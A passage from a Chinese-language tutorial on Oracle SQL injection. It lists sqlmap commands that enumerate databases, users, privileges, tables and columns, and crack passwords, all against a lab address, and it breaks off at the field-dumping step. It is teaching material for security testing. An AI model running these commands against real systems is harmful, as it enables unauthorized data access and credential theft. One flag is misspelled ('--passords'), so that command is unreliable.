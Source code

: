 ![](https://mmbiz.qpic.cn/mmbiz_png/0RFmxdZEDROqkDUBzQzZUJTRq29JLjGl6yjSC5Lm6hQ7XW3eomVJpJXibObjiaibVIOy7apX5qxyPzung2sibc9nKw/640?wx_fmt=png)

八. Oracle 手工注入以及自动化工具 SQLMAP 使用
===============================

下一篇文章讲详细介绍 SQLMAP 的用法。

1. 基本使用方法

*   检测注入点  
    
    python2 sqlmap.py -u http://192.168.1.6:81/orcl.php?id=1 --dbms=oracle
    
*   查看所有数据库名  
    
    python2 sqlmap.py -u http://192.168.1.6:81/orcl.php?id=1 --dbms=oracle --dbs
    
*   查看当前用户的权限  
    
    python2 sqlmap.py -u http://192.168.1.6:81/orcl.php?id=1 --dbms=oracle --privileges
    
*   是否是管理员  
    
    --is-dba
    
*   所有用户  
    
    --users
    
*   当前用户  
    
    --current-user
    
*   当前数据库  
    
    --current-db
    
*   破解当前用户密码  
    
    --passords
    
*   获取系统信息  
    
    --hostname
    
*   获取数据库信息  
    
    --banner
    
*   获取数据库用户角色  
    
    --roles
    

2. 获取当前数据库下表

*   python2 sqlmap.py -u http://192.168.1.6:81/orcl.php?id=1 --dbms=oracle -D TEST --tables
    

3. 获取当前数据库下指定表下的字段名

*   python2 sqlmap.py -u http://192.168.1.6:81/orcl.php?id=1 --dbms=oracle -D TEST -T STU --columns
    

4. 获取字段内容
